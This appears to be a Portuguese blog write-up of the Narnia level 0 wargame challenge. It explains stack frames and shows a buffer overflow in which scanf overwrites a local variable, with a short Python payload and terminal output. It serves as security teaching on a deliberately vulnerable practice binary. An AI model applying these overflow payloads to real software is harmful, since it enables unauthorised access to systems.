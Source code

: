 O stack frame de uma função fica responsável por guardar as variáveis locais da mesma e argumentos (caso existam). Ele não serve só para isso e guarda outras coisinhas, mas pelo objetivo do chall não vai ser necessário contar a história toda.

Vamos a função main do narnia0. No ínicio ela declara val e guarda nela o valor 0x41414141. Logo depois, declara um vetor de 20 chars. No stack, isso fica assim:

<img class="size-full wp-image-1336" src="https://brenn0.files.wordpress.com/2016/12/stack_horrivel3.png" alt="Antes de scanf copiar a entrada para buf." width="233" height="139" />

Mesmo que, quando a função main seja chamada, buf ainda não tenha um valor definido, o processo precisa reservar espaço no stack para receber esse valor.

Aí agora que começa a mágica.

Como falei antes, <strong>scanf("%24s",&amp;buf) </strong>tenta salvar em buf mais do que cabe. Já consegue deduzir o que acontece?

```narnia0@melinda:/narnia$ ./narnia0
Correct val's value from 0x41414141 -0xdeadbeef!
Here is your chance: BBBBBBBBBBBBBBBBBBBBBBBB
buf: BBBBBBBBBBBBBBBBBBBBBBBB
val: 0x42424242
WAY OFF!!!!
```

Exatamente. É assim que o stack vai ficar quando scanf mandar para a memória 4 caracteres a mais do que o que foi reservado para buf:

<img class="size-full wp-image-1337" src="https://brenn0.files.wordpress.com/2016/12/stack_horrivel2.png" alt="Os 4 B's extras são empurrados e atropelam val." width="224" height="140" />

O valor de val é sobreescrito porque o programa calculou errado o quanto de espaço seria necessário. Isso se chama <a href="https://pt.wikipedia.org/wiki/Transbordamento_de_dados">Buffer Overflow</a>. E aí que tá a chance de alterar val mesmo que o programa não nos dê uma opção direta.

Muito bom. Parecia simples. Passar 20 caracteres + 0xdeadbeef como entrada para buf e curtir uma /bin/sh como narnia1.

Se você é um bom observador, sabe que 0xdeadbeef não é uma simples string e sim um valor hexadecimal. Se estiver curioso, tente sobreescrever val o inserindo literalmente no programa e veja que resultado decepcionante.

Uma forma de passar esse valor pronto e bem formatado é usando o python. Meu "exploit" ficou assim:

```

print A*20 + \xef\xbe\xad\xde

```

Os "<em>\x</em>" avisam que os caracteres precisam ser interpretados como hexadecimais. Ah, e tem também o fato de o valor ter que ser passado com os bytes invertidos. Isto é necessário por causa da nossa arquitetura <a href="https://arqufs2008.wordpress.com/2008/05/26/little-endian-vs-big-endian/">Little Endian</a>.

Tudo pronto para funcionar.

```narnia0@melinda:/narnia$ python -c 'print A*20 + \xef\xbe\xad\xde' | ./narnia0
Correct val's value from 0x41414141 -0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
narnia0@melinda:/narnia$
```
